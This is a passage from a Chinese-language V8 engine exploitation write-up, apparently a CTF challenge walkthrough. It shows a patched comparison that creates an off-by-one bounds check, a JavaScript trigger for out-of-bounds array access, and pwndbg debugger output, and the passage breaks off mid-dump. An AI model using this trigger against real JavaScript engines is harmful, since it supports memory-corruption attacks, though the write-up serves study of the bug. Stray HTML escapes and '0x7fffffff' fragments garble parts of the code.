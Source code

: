 ```
if (m.IsFoldable()) `{`                                    // K &lt; K =&gt; K
        return ReplaceBool(m.left().Value() &lt; m.right().Value() + 1);//比较的时候左边是index 右边是length
```

源码中patch的位置如上

所以如果length = 4 我们输入的index = 4实际上是优化出True, 可以访问

而oob[4]实现了off-by-one

#### <a class="reference-link" style="background-image: url('img/anchor.gif');" name="2.5"></a>2.5

尝试用数组越界进行漏洞的触发

```
function foo()
`{`
    let oob = [1.0,1.1,1.2];
    let m = `{`o:4`}`;

    return oob[m.o];
`}`0x7fffffff
// const MAX_ITERATIONS = 100000;
print(foo());
print(foo());
// for(var i=0;i&lt;MAX_ITERATIONS;i++)
// `{`
//     foo(1);
// `}`0x7fffffff
readline();
%OptimizeFunctionOnNextCall(foo);
print(foo());
```

同样在源码中下断点,查看触发情况

上面的脚本段在了下面的位置

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t015aeceaff6aef7d0d.png)

输出一下节点的情况

```
0x7fffffffpwndbg&gt; print m
$1 = `{`
  &lt;(anonymous namespace)::(anonymous namespace)::(anonymous namespace)::NodeMatcher&gt; = `{`
    node_ = 0x55b2010c6c10
  `}`, 
  members of (anonymous namespace)::(anonymous namespace)::(anonymous namespace)::BinopMatcher&lt;v8::internal::compiler::IntMatcher&lt;unsigned int, v8::internal::compiler::IrOpcode::kInt32Constant&gt;, v8::internal::compiler::IntMatcher&lt;unsigned int, v8::internal::compiler::IrOpcode::kInt32Constant&gt; &gt;: 
  left_ = `{`
    &lt;(anonymous namespace)::(anonymous namespace)::(anonymous namespace)::ValueMatcher&lt;unsigned int, v8::internal::compiler::IrOpcode::kInt32Constant&gt;&gt; = `{`
      &lt;(anonymous namespace)::(anonymous namespace)::(anonymous namespace)::NodeMatcher&gt; = `{`
        node_ = 0x55b201109628
      `}`, 
      members of (anonymous namespace)::(anonymous namespace)::(anonymous namespace)::ValueMatcher&lt;unsigned int, v8::internal::compiler::IrOpcode::kInt32Constant&gt;: 
      value_ = 4, 
      has_value_ = true
    `}`, &lt;No data fields&gt;`}`, 
  right_ = `{`
```